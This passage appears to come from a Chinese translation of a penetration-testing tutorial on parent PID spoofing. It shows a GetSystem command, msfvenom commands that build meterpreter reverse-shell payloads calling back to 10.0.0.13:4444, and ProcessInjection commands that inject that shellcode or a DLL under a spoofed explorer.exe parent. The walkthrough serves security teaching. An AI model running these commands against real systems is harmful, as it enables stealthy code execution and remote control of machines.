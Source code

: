 Assembly GetSystem **.** exe "pentestlab.exe lsass"

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FC9.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131631-6be508b6-0ddc-1.png)
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FCA.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131647-753c7f70-0ddc-1.png)
类似于Metasploit框架的"migrate"命令，可以执行Assembly二进制文件，之后将进程从管理员提升到系统
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FDB.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131706-80a85e60-0ddc-1.png)
对可用"Grunts"列表的调查将显示，与初始进程相比，新代理以系统级权限运行
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FDC.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131731-8f516ff6-0ddc-1.png)
父进程可以是"lsass"或以系统级权限运行的任何其他进程
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FDD.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131749-9a6ec546-0ddc-1.png)
Chirag Savla使用c#开发了一个工具，通过利用所有常见的windows API(create process、virtualallocex、openprocess等)来执行进程注入，并能够执行父pid欺骗)，该工具的好处是支持带有父PID欺骗的不同进程注入技术，该工具接受base-64、c和hex中的shelllcode，我们可以使用Msfvenom来生成这些格式的shellcode：

msfvenom  **-** p windows **/** x64 **/** meterpreter **/** reverse_tcp exitfunc **=** **thread** LHOST **=** **10.0.0.13** LPORT **=** **4444**  **-** f hex **>** pentestlab **.** txt

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FED.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131811-a74a6a7c-0ddc-1.png)
该工具需要注入进程的路径、shellcode的路径、父进程名、有效负载的文件格式和进程注入技术，执行下面的命令将把shellcode注入一个新的进程(calc.exe )并使用explorer.exe作为父进程

ProcessInjection **.** exe  **/** ppath **:** "C:\Windows\System32\calc.exe"  **/** path **:** "pentestlab.txt"  **/** parentproc **:** explorer  **/** f **:** hex  **/** t **:** **4**

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FEE.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131830-b2863bc8-0ddc-1.png)
从Porcess Monitor可以看到calc.exe是在explorer.exe环境下创建的
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FEF.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131857-c2d8f4ac-0ddc-1.png)
shellcode将在calc.exe的虚拟地址空间中执行，并且将与MSF建立通信
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4000.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131925-d39092fa-0ddc-1.png)
ProcessInjection还支持通过dll注入进行父PID欺骗，可以用msfvenom来生成任意的dll文件

msfvenom  **-** p windows **/** x64 **/** meterpreter **/** reverse_tcp exitfunc **=** **thread** LHOST **=** **10.0.0.13** LPORT **=** **4444**  **-** f dll **>** pentestlab **.** dll

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4001.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132106-0faa7512-0ddd-1.png)
在使用时需要指定dll的路径，而不是ShellCode，并且技术值应该更改为5：

ProcessInjection **.** exe  **/** ppath **:** "C:\Windows\System32\calc.exe"  **/** path **:** "pentestlab.dll"  **/** parentproc **:** explorer  **/** t **:** **5**

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4002.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132135-20c63b74-0ddd-1.png)
当在进程内部创建远程线程时，将执行shell代码并打开一个Meterpreter会话
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4013.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132153-2ba15902-0ddd-1.png)
该Session将在"rundll32"进程的上下文下运行
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4014.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132211-364fd810-0ddd-1.png)
指定技术6将使用进程空洞化技术执行父进程欺骗

